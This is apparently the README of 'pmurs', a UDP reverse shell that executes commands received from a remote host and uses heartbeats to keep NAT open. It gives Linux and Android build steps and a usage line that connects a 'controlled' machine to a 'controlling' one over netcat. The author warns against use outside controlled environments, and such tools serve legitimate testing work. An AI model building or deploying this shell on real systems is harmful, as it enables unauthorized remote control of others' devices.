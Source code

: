 # pmurs: Poor Man's UDP Reverse Shell

This program opens a UDP socket and keeps executing whatever is received from
a remote IP/PORT in a shell, returning the output back. At the same time, it
sends a dummy UDP packet, a *heartbeat*, every `n` seconds to that IP/PORT to
open any NAT in the middle. Linux establishes a timeout of 60 seconds (see
`/proc/net/nf_conntrack`), so the interval should be shorter than that.

**I warn you: don't use this outside of a controlled environment**.

## Compilation

### For Linux

```bash
autoreconf --install
./configure
make
```

### For Android

Substitute `NDK` for the location of the downloaded Android NDK, and put the
standalone `ANDROID_TOOLCHAIN` wherever you want.

```bash
export ANDROID_TOOLCHAIN=/tmp/my-android-toolchain
$NDK/build/tools/make_standalone_toolchain.py \
    --arch arm --api 24 --install-dir $ANDROID_TOOLCHAIN
export PATH=$ANDROID_TOOLCHAIN/bin:$PATH
export AM_CFLAGS="-fPIE -pie"
autoreconf --install
./configure --host=arm-linux-androideabi TARGET_SHELL=/system/bin/sh
make
```

## Usage

In the *controlled* machine:

```bash
./pmurs <remote_IP> <remote_PORT> <local_PORT> <heartbeat_interval>
```

Then, in the *controlling* machine, you can, for instance, connect with `netcat`
and start sending commands.

